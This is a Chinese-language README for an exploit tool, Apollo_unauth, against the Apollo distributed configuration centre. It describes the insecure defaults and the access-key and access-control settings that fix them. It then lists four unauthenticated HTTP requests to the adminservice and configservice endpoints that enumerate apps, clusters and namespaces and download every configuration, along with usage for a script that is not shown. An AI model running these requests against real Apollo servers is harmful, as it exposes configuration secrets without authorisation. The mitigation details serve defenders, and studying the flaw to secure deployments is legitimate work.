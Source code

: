 # Apollo_unauth
Apollo 配置中心未授权获取配置漏洞利用

## 0x00：背景
Apollo（阿波罗）是携程框架部门研发的分布式配置中心，能够集中化管理应用不同环境、不同集群的配置，配置修改后能够实时推送到应用端，并且具备规范的权限、流程治理等特性，适用于微服务配置管理场景。
项目地址: https://github.com/ctripcorp/apollo

## 0x01：默认不安全
从 issues-2099 可以看出，根本不需要通过要鉴权的 apollo-dashboard ，只要通过伪造成客户端，即可未授权获取相应的配置信息。

Apollo 官方的解决方案是：

1.6.0 版本开始增加访问密钥机制，只有经过身份验证的客户端才能访问敏感配置。如果应用开启了访问密钥，客户端需要配置密钥，否则无法获取配置。但是默认不会开启此项功能。

1.7.1 版本开始可以为 apollo-adminservice 开启访问控制，从而只有合法的 apollo-portal 才能访问对应接口，以增强安全性。类似于增加配置：

admin-service.access.control.enabled = true
admin-service.access.tokens=098f6bcd4621d373xade4e832627b4f6
有意思的是，默认 admin-service.access.control.enabled 值为 false，也就是默认不会开启此项功能。

## 0x03：漏洞利用
由于网上没有漏洞细节，所以我下载了 Apollo 源码，分析了下几个服务的相关代码，下面给出一种利用方法。

大致流程就是利用默认可未授权访问的 apollo-configservice 和 apollo-adminservice 服务，通过调用相关接口获取所有能够获取到的配置信息。

```
# 1. 获取所有的应用基本信息(包含 appId)
http://test.landgrey.me:8090/apps

# 2. 获取相关 appId 的所有 cluster
http://test.landgrey.me:8090/apps/<appId>/clusters

# 3. 获取相关 appId 的 namespaces
http://test.landgrey.me:8090/apps/<appId>/appnamespaces

# 4. 组合 appId cluster namespaceName 获取配置 configurations
http://test.landgrey.me:8080/configs/<appId>/<cluster>/<namespaceName>
```

脚本用法如下：

Usage: Apollo_unauth.py -t <apollo_adminservice_url> and -c <apollo_configservice_url>

参考文章：https://buaq.net/go-53399.html
